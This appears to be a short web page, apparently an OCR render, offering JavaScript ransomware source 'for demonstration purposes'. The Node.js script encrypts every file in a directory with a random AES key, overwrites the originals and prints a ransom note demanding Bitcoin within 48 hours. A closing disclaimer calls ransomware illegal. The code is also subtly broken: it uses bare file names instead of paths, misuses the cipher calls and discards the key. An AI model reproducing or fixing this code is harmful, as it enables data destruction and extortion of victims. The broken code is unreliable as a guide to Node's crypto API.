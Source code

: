 # Ransomware code in JavaScript
(for-demonstration-purposes-only to understand the technic behind.
Ransomware code (for demonstration purposes only)

```
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');

// Directory to target for file encryption
var targetDirectory = '/user/files';

// Generate encryption key
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var encryptedData = crypto
    .createCipher('aes-256-cbc', encryptionKey)
    .update(data, 'utf8', 'hex') +
    crypto.createCipher.final('hex');

  // Write encrypted data back to file
  fs.writeFileSync(file, encryptedData);
});

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
To decrypt your files, send 0.1 BTC to the following address:
<Bitcoin_Address>
Once payment is received, your files will be decrypted.
If payment is not made within 48 hours, the encryption key will be deleted, and your files will be lost forever.
`;

console.log(ransomNote);

```
Please note that creating or using ransomware is illegal and unethical. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.
